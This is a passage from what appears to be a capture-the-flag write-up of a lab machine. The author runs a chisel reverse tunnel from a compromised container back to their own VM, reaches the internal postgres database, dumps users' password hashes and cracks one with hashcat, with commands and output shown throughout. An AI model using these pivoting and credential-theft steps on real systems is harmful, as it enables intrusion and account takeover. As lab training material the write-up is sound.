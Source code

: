 I now run a `chisel` server on my Parrot VM, listening on port 6969:

```bash
$./chisel server -p 6969 --reverse
2023/02/19 20:57:04 server: Reverse tunnelling enabled
2023/02/19 20:57:04 server: Fingerprint 6Zclibd5UaElkkiDQ/SX1oGWqKStwyRE0MJrh6y+ss4=
2023/02/19 20:57:04 server: Listening on http://0.0.0.0:6969
```

Now, back in the container:

```shell
/app # ./chisel client 10.10.14.33:6969 R:5555:172.22.0.1:5432
```

This will connect chisel as a client back to my Parrot VM on 10.10.14.33:6969 via a HTTP connection.  In a more locked down environment, you would likely select more common ports, such as 80, 443, 8080, etc (why is a container communicating out to the interwebs on port 6969?)

With this outbound connection from the container to my own machine in place, the `R:5555:172.22.0.1:5432` syntax above basically will set a *remote* listening port on 5555 on my Parrot VM, which tunnels/forwards from my machine **back** through to 172.22.0.1:5432 on the target (container), which is the postgres instance our container's running application connects to.

So now my Parrot VM will be listening on port 5555, tunnelled back through the outbound HTTP connection our container established via the `chisel client` command we ran inside the container, and finally to the postgres instance.  Let's try connecting -- so from our Parrot VM, we run:

```bash
$psql postgres://postgres:postgres@localhost:5555/mentorquotes_db
psql (13.9 (Debian 13.9-0+deb11u1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from users;
 id |           email            |  username   |             password             
----+----------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb     | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb       | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | foo@bar.com                | foobar      | 6df23dc03f9b54cc38a0fc1483df6e21
  5 | james@foo.bar              | james       | 6df23dc03f9b54cc38a0fc1483df6e21
  6 | admin@mentorquotes.htb     | admin       | 6df23dc03f9b54cc38a0fc1483df6e21
```

A little poking around, and we now have password hashes for existing accounts including our own. After running the `service_acc` account's hash through hashcat, we find password `123meunomeeivani`

```bash
$hashcat 53f22d0dfa10dce7e29cd31f4f953fd8 /usr/share/wordlists/rockyou.txt --show 
53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani
```
